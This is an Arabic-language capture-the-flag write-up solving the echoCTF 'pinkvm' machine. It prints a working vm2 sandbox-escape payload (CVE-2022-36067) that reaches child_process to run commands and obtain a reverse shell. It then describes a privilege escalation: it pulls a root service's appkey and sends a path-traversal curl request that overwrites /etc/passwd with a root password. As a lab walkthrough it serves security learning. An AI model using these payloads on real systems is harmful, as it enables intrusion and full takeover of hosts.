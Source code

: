 ```yaml
---
layout: "post"
title: "echoCTF - pinkvm | Sandbox Bypass (CVE-2022-36067)"
date: 2023-03-9T21:44:02+01:00
---
```


> <html><body><b><p style="color:#ffffff;font-size:25px">Introduction:</p></b></body></html>

<div dir="rtl" align="right">
بسم الله الرحمن الرحيم
</div>

<div dir="rtl" align="right">
السلام عليكم ورحمة الله وبركاتة, اليوم راح نشرح حل تحدي Pinkvm المقدم من echoCTF طبعاً التحدي مبني على CVE حديثه الا وهي CVE-2022-36067 الاصابة في مكتبة vm2-sandbox تخطي javascript sandbox  والحصول على RCE وبعد ذلك سوف نشرح طريقة تصعيد الامتياز والحصول على صلاحيات root.
</div>

<img src="/img/FirstBlood.png" alt="centered image" />

> <html><body><b><p style="color:#ffffff;font-size:25px">What is Sandbox:</p></b></body></html>

<div dir="rtl" align="right">
هي بيئة افتراضية نقوم من خلالها بتنفيذ التعليمات البرمجية خارج نطاق الجهاز لتقليل من المخاطر, بكل اختصار هي آلية عزل راح تعزلك كمهاجم من تنفيذ تعليماتك البرمجية الخبيثه على جهاز المضيف وكما هو موضح اعلاه كيف نقدر نتخطى هذا  الشيء ونفذ تعلميات javascript خبيثة والحصول على Reverse Shell.
</div>

> <html><body><b><p style="color:#ffffff;font-size:25px">Enumeration with nmap:</p></b></body></html>

<div dir="rtl" align="right">
راح نستخدم اداة nmap لفحص المنافذ المفتوحة و فحص الخدمات المستخدمة كما هو موضح ادناه
</div>



**`-sV`** لفحص الخدمات المستخدمة **`-p-`** لاستخراج جميع المنافذ المفتوحة

```bash
pegasus@RedEyes:~$ sudo nmap nmap -sV -p- $IP
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-10 18:50 +03
Failed to resolve "nmap".
Nmap scan report for $IP
Host is up (0.097s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.24 seconds
```
> <html><body><b><p style="color:#ffffff;font-size:25px">Port 3000 - HTTP:</p></b></body></html>

<div dir="rtl" align="right">
راح نلاحظ صندوق إدخال يمكن من خلاله تنفيذ الكود الخاص بنا وادناه يبين لك طريقة عمل الكود
</div>

<img src="/img/3000-http.png" alt="centered image" />

```javascript
module.exports = function() { YOUR_CODE_GOES_HERE }
```

<div dir="rtl" align="right">
بكل اختصار الكود المستخدم يقوم بتصدير اي شيء يتم تعريفة داخل function 
</div>

<div dir="rtl" align="right">
على سبيل المثال لو عطيناه عملية رياضية رايح يتم تصديرها من نفس function وسيتم تنفيذها
</div>

<img src="/img/math.png" alt="centered image" />

<div dir="rtl" align="right">
بعد البحث عن المكتبة المستخدمة الا وهي vm2 سنجد انها مصابة Remote Code Execution
</div>


<div dir="rtl" align="right">
البايلود المستخدم
</div>

```javascript
globalThis.OldError=globalThis.Error;
try{
const a=123
a=44
}catch(err){
  console.log(err)  
}

globalThis.Error={}
globalThis.Error.prepareStackTrace=(errStr,traces)=>{
    traces[0].getThis().process.mainModule.require('child_process').execSync('ENETR OS COMMAND HERE') 
}  
const {stack}=new globalThis.OldError 
```

<div dir="rtl" align="right">
طريقة عمل الكود بكل اختصار اذا حصل خطأ في تعريف متغير a راح يتم تنفيذ child_process ونحصل على Rerverse Shell
</div>

> <html><body><b><p style="color:#ffffff;font-size:25px">Reverse shell:</p></b></body></html>

<div dir="rtl" align="right">
بعد تنفيذ البايلود الخاص بنا راح نحصل على Reverse shell.
</div>

<img src="/img/submit_payload.png" alt="centered image" />

<img src="/img/reverse_shell.png" alt="centered image" />

> <html><body><b><p style="color:#ffffff;font-size:25px">Privilege Escalation:</p></b></body></html>

<div dir="rtl" align="right">
راح نستخدم امر ps -aux لعرض جميع العمليات فالنظام
</div>

```bash
ETSCTF@pinkvm:/app$ ps -aux | grep root
root         1  0.0  0.0   2276   756 pts/0    Ss   08:30   0:00 /sbin/tini -- /entrypoint.sh supervisord -n
root         7  0.0  0.0   3732  2856 pts/0    S+   08:30   0:00 /bin/bash /entrypoint.sh supervisord -n
root        18  0.0  0.5  24328 20412 pts/0    S+   08:30   0:01 /usr/bin/python2 /usr/bin/supervisord -n
root        22  0.0  1.0 11103740 42796 pts/0  Sl   08:30   0:00 node /usr/local/bin/nako3edit
root     13280  0.0  0.0   3732  2748 ?        S    11:25   0:00 /bin/bash /usr/local/sbin/healthcheck.sh
root     13281  0.0  0.1  94884  7900 ?        S    11:25   0:00 curl -s -f http://localhost:3000/
```
<div dir="rtl" align="right">
راح نلاحظ ان الروت يشغل سكربت nako3edit
بعد استعراض السكربت راح نلاحظ انه يشغل منفذ 8888 ويعطينا قيمة appkey في Location header  
</div>

```javascript
#!/usr/bin/env node
/** nako3edit
node
HTTP
) */
import path from 'path'
import fs, { existsSync } from 'fs'
import { execSync } from 'child_process'
import opener from 'opener'
import http from 'http'
// __dirname 
import url from 'url'
const __filename = url.fileURLToPath(import.meta.url)
const __dirname = path.dirname(__filename)
// CONST
const SERVER_PORT = 8888
const rootDir = path.resolve(__dirname)
const releaseDir = path.resolve(path.join(__dirname, '../../release'))
const isWin = process.platform === 'win32'
const homeDir = process.env[isWin ? 'USERPROFILE' : 'HOME']
const userDir = path.join(homeDir, 'nadesiko3_user')
const CNAKO3 = path.resolve(path.join(__dirname, '../../src/cnako3.mjs'))
const NODE = process.argv[0]
const appkey = 'K' + Math.floor(Math.random() * 10000000).toString(16) // <--- appkey
if (!fs.existsSync(userDir)) { fs.mkdirSync(userDir) }
const server = http.createServer(function (req, res) {
  console.log('[
]', JSON.stringify(req.url))
  // root 
 "demo/"
  if (req.url === '/') {
    res.writeHead(302, { 'Location': `/html/files.html?appkey=${appkey}` }) // <---  appkey as a query parameter
    res.end('<a href="/html/files.html">HTML</a>')
    return

```

```bash
ETSCTF@pinkvm:/app$ curl localhost:8888 -i
HTTP/1.1 302 Found
Location: /html/files.html?appkey=K8fc911 <--- appkey
Date: Fri, 10 Mar 2023 12:00:08 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Transfer-Encoding: chunked
```


<div dir="rtl" align="right">
بعد حصولنا على appkey نحلل الكود ونشوف وش الاشياء الي نقدر نسويها 
</div>


```javascript
function apiSave (res, params) {
  res.writeHead(200, { 'Content-Type': 'text/plain; charset=utf-8' })
  const appkeyUser = params.appkey
  if (appkey !== appkeyUser) {
    res.end('[ERROR] キーが違います')
    return
  }
  const fname = params.file
  const body = params.body
  const fullpath = path.join(userDir, fname)
  try {
    fs.writeFileSync(fullpath, body, 'utf-8')
    console.log('[save] file=', fullpath)
    console.log('body=', body)
    console.log('--------------------------------')
    res.end('ok')
  } catch (err) {
    res.end('[ERROR] 保存に失敗しました😭')
  }
}

```

<div dir="rtl" align="right">
جميل لقينا function يسمح لنا بحفظ ملف بمحتويات خاصه بنا ويتطلب 3 متغيرات الا وهي
</div>

- file
- body
- appkey

<div dir="rtl" align="right">
بحكم ان السكربت يعمل بصلاحيات روت راح اعدل على ملف passwd واحط باسورد لروت
</div>

<div dir="rtl" align="right">
راح ننشئ باسورد عن طريق الامر ادناه
</div>

```bash
pegasus@RedEyes:~$ openssl passwd -6 -salt xyz test 
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0
```

<div dir="rtl" align="right">
نقوم الان بارسال الطلب
</div>

```bash
ETSCTF@pinkvm:/app$ curl 'http://localhost:8888/save?file=../../etc/passwd&body=root:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:0:0:root:/root:/bin/bash&appkey=K8fc911'
```

<img src="/img/user_root.png" alt="centered image" />

<div dir="rtl" align="right">
وبكذا حصلنا على روت
</div>

> <html><body><b><p style="color:#ffffff;font-size:25px">References:</p></b></body></html>

- https://www.oxeye.io/blog/vm2-sandbreak-vulnerability-cve-2022-36067
- https://github.com/Prathamrajgor/Exploit-For-CVE-2022-36067
- https://security.snyk.io/vuln/SNYK-JS-VM2-3018201
- https://unix.stackexchange.com/questions/81240/manually-generate-password-for-etc-shadow

> <html><body><b><p style="color:#ffffff;font-size:25px">Author:</p></b></body></html>

**Twitter** :

```
https://twitter.com/57h
```